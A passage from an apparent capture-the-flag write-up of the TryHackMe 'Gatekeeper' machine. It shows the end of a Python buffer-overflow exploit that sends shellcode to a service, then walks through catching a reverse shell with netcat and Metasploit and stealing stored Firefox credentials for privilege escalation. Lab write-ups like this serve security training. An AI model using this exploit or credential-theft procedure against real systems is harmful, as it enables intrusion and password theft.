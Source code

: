 "\x54\xfb\xab\x5e\x8f\xbf\xcc\xbc\x05\xca\x64\x19\xcc\x77\xe9"
"\x9a\x3b\xbb\x14\x19\xc9\x44\xe3\x01\xb8\x41\xaf\x85\x51\x38"
"\xa0\x63\x55\xef\xc1\xa1")

buffer = overflow + retn + padding + payload

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

now setup a netcat listner and start the application without the debugger and after executing the script we got shell.

POC=>

![program-without-debugger](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/program-without-debugger.png)

![shell](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/shell.png)

Now need to use this exploit on tryhackme machine create a new shellcode using msfvenom and specify your tun0 ip. copy the code and paste in exploit.py script don't forget to change ip to machine ip. Now start msfconsole and set payload and multi handler for connection.

![msfconsole](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/msfconsole.png)

After running our exploit.py we got connection back to our handler.

![shell_real](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/shell_real.png)

We got a shell of user name natbat.

## Privilege Escalation

While performing enumeration of common files and folders, found out that Mozilla Firefox is installed on the box, so decided to use Metasploit to extract browser credentials.
so first i background the current session using 'background' command and then using '/post/multi/gather/firefox_creds'  

![firefox_msfconsole](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/firefox_msfconsole.png)

then i  set the session number and again run the exploit.

![firefox_creds](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/firefox_creds.png)

using [this](https://github.com/unode/firefox_decrypt) GitHub repository, credentials stored by Firefox can be decrypted.

![file](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/file.png)

Then using the tool we download we decrypt the files and found username and password.

![root_creds](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/root_creds.png)
```